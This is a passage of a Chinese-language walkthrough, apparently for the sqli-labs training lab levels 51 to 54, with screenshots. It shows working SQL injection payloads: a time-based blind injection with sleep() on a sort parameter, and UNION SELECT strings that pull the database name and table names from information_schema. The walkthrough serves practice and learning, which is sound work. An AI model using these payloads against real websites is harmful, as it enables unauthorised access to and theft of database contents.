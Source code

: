 
好吧还是延时注入

接下来，就延时爆破吧


## 51. 字符型，堆叠，orderby注入

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/115130645-e5861000-a023-11eb-8a55-1ecebee107c4.png)


很显然是‘的闭合方式

* 查看有没有回显

![image](https://user-images.githubusercontent.com/76896357/115130641-dc953e80-a023-11eb-8c56-942ca88e3cae.png)

* 直接延时注入吧
```
?sort=1' and length(database())=8 and if(1=1,sleep(2),1) or '1'='1
```
同样的套路

![image](https://user-images.githubusercontent.com/76896357/115130838-832e0f00-a025-11eb-8a76-e98a59bd39d7.png)


## 52.,52,53全部与上面类似

## 54. 限制次数的查询

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/115131043-5844ba80-a027-11eb-92d5-f5518c2e5ef3.png)

有回显

查库，

```
?id=0' union select 1,2,database() --+
```


得到challenges库


查表

```
?id=0%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20--+
```



![image](https://user-images.githubusercontent.com/76896357/115131540-76141e80-a02b-11eb-9625-50fe5c349feb.png)

